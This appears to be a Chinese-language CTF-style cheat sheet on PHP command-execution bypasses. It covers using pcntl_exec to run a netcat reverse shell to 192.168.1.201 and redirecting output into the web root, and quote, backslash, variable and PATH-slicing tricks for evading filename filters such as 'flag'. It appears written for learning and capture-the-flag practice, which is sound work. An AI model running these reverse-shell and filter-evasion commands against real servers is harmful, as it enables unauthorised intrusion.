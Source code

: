 ### 1. `pcntl` 扩展绕过 ⚙️

**核心原理：**

`pcntl_exec` 函数在当前进程空间内执行指定的程序。如果能调用此函数，并且目标系统上存在可用的 shell (如 `bash`, `sh`) 或其他可执行程序 (如 `nc`)，则可以利用它执行任意命令。

**函数定义：**

`pcntl_exec(string $path, array $args = ?, array $envs = ?)`

* `$path`: 必须是可执行二进制文件的路径，或者是一个在文件第一行指定了可执行文件路径标头（shebang `#!`）的脚本。例如 `#!/bin/bash`。
* `$args`: 一个字符串数组，作为参数传递给程序。
* `$envs`: 一个字符串数组，作为环境变量传递给程序。

**利用示例：**

```php
<?php
// 利用 #!/bin/bash 来执行 nc 反弹 shell
pcntl_exec("/bin/bash", array("-c", "nc 192.168.1.201 7777 -e /bin/bash"));
// 或者直接指定 nc 路径 (如果知道)
// pcntl_exec("/bin/nc", array("192.168.1.201", "7777", "-e", "/bin/bash"));
?>
```

**无回显问题与解决：**

`pcntl_exec` 函数本身不提供命令执行后的回显。

* **解决方法一：输出重定向**
    将命令执行结果输出到 Web 服务器有权限访问的目录下，然后通过 HTTP 请求查看该文件内容。
    例如：`pcntl_exec("/bin/bash", array("-c", "ls / > /var/www/html/output.txt"));`
* **解决方法二：反弹 Shell**
    直接建立一个反弹 shell，通过该 shell 进行交互式命令执行，从而看到结果。
    示例见上方的 `nc` 命令。

---

### 2. 文件名过滤绕过 (混淆) 📄

**核心原理：**

当目标对读取或操作的文件名进行过滤时（例如，过滤 `flag` 关键字），可以通过多种shell特性或PHP字符串特性来混淆文件名，从而绕过检测。

**绕过技巧：**

* **引号混淆：**
    在文件名中插入单引号 (`'`) 或双引号 (`""`)。Shell 通常会将这些引号间的内容或引号本身视为空白或连接符。
    * `cat fl""ag"".php`
    * `cat fl''ag''.php`
* **反斜杠转义：**
    使用反斜杠 (`\`) 转义字符，可能使过滤规则失效。
    * `cat fl\ag\.php` (这里 `\.` 会被shell解释为 `.`)
* **特殊变量插入 (Shell)：**
    在 Shell 环境中，某些未定义的变量或特殊变量（如 `$1` 到 `$9`, `$@`, `$*` 在特定上下文中可能为空）在展开时为空字符串，可以插入到文件名中进行混淆。
    * `cat f$1lag.php` (如果 `$1` 未定义或为空)
* **环境变量与切片 (Shell)：**
    利用 Linux Shell 中已存在的环境变量，通过切片和拼接构造出目标字符。
    * 例如，假设需要 `flag`：
        `echo f${PATH:5:1}${PATH:8:1}g` (这里假设 `${PATH:5:1}` 是 `l`，`${PATH:8:1}` 是 `a`，具体偏移量和环境变量需根据实际情况确定)
        然后可以用 `cat $(echo f${PATH:5:1}${PATH:8:1}g)`

---